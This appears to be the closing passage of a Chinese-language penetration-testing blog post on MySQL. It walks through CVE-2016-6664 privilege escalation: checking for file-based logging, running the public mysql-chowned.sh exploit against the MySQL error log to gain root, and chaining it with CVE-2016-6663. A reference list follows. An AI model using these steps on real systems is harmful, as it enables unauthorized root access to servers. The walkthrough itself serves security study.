- 目标主机配置必须是是基于文件的日志(默认配置)，也就是不能是syslog方式。执行`grep -r syslog /etc/mysql`没有任何结果既满足“基于文件的日志”要求。

该漏洞利用很简单，首先下载漏洞利用脚本 [mysql-chowned.sh](https://legalhackers.com/advisories/MySQL-Maria-Percona-RootPrivEsc-CVE-2016-6664-5617-Exploit.html)，将该脚本上传到目标主机并以系统mysql用户权限运行即可获取系统root权限：

```
./mysql-chowned.sh /var/log/mysql/error.log
```

**注意：**必须以mysql权限执行mysql-chowned.sh才能成功提为root，所以，该漏洞常常需要配合CVE-2016-6663。可以先利用CVE-2016-6663漏洞获取mysql权限的shell然后再执行mysql-chowned.sh。

> CVE-2016-6662、CVE-2016-6663、CVE-2016-6664这几个漏洞常常是配合起来利用的。

## Ending......


文中定有不足之处，还请各位大佬多多指教，小生还需多多向各位前大佬们学习。

我的博客：[https://whoamianony.top/](https://whoamianony.top/)

> 参考：
>
> https://www.cnblogs.com/xiaozi/p/12767050.html
>
> https://www.sqlsec.com/2020/11/mysql.html#toc-heading-31
>
> https://www.uedbox.com/post/58919/
>
> https://blog.csdn.net/qq_36119192/article/details/84863268
>
> https://www.cnblogs.com/3ichae1/p/12909952.html
>
> https://blog.csdn.net/fly_hps/article/details/80944170
>
> https://www.freebuf.com/vuls/243513.html
>
> https://mp.weixin.qq.com/s?__biz=MzIyNjE4NDcyMA==&mid=2247484839&idx=1&sn=16720fb8e035c8bbe612d738839262c5&chksm=e8751ed8df0297ce54ef5acabd5a42f66f81f66b56b168ba80a3af5d55877d546aee33dd8510&scene=0#rd
>
> https://www.k0rz3n.com/2018/10/21/Mysql 在渗透测试中的利用
>
> https://www.anquanke.com/post/id/84557
>
> https://www.anquanke.com/post/id/84554
>
> https://www.freebuf.com/vuls/243513.html
>
> https://www.anquanke.com/post/id/84553
>
> https://xz.aliyun.com/t/1122#toc-2

